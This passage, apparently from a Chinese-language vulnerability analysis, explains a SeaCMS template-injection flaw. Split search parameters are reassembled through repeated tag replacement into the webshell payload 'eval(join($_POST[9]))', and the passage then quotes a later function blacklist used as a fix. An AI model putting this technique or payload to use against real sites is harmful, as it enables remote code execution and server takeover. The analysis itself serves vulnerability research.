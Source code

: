 ```php
	if($money=='m'){$money2="免费";}elseif($money=='s'){$money2="收费";}else{$money2="全部";}
	$content = str_replace("{searchpage:state}",$state2,$content);
	$content = str_replace("{searchpage:money}",$money2,$content);
	$content = str_replace("{searchpage:ver}",$ver,$content);
		
...
	$content=replaceCurrentTypeId($content,-444);
	$content=$mainClassObj->parseIf($content);
```

这里利用了对searchpage标签重复替换的方法插入我们的payload

原来模板中的html代码如下:
```php
<meta name="keywords" content="{seacms:searchword},海洋CMS" />

```

第一次替换`{seacms:searchword}` 后的html代码为:

    <meta name="keywords" content="{if{searchpage:year},海洋CMS" />

之后依次替换的内容为:

```php
//替换year
<meta name="keywords" content="{if:e{searchpage:area}},海洋CMS" />

//替换area
<meta name="keywords" content="{if:ev{searchpage:letter}},海洋CMS" />

//替换letter
<meta name="keywords" content="{if:eval{searchpage:lang}},海洋CMS" />

//替换lang
<meta name="keywords" content="{if:eval(join{searchpage:jq}},海洋CMS" />

//替换jq
<meta name="keywords" content="{if:eval(join($_P{searchpage:ver}},海洋CMS" />

//替换ver
<meta name="keywords" content="{if:eval(join($_POST[9]))},海洋CMS" />
```

这样就拼好了我们的一句话木马了, 之后被$labelRule正则解析出来的代码为:`eval(join($_POST[9]))`

最终我们eval执行的语句是:

    @eval("if(eval(join($_POST[9]))){\$ifFlag=true;}else{\$ifFlag=false;}");
    
### v6.55 代码执行

在这个版本中，开发人员终于发现了这个问题的本质，于是在这个版本中添加了一个修复方案:

```php
foreach($iar as $v){
    $iarok[] = str_ireplace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','_SERVER','assert','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
}
$iar = $iarok;  
```

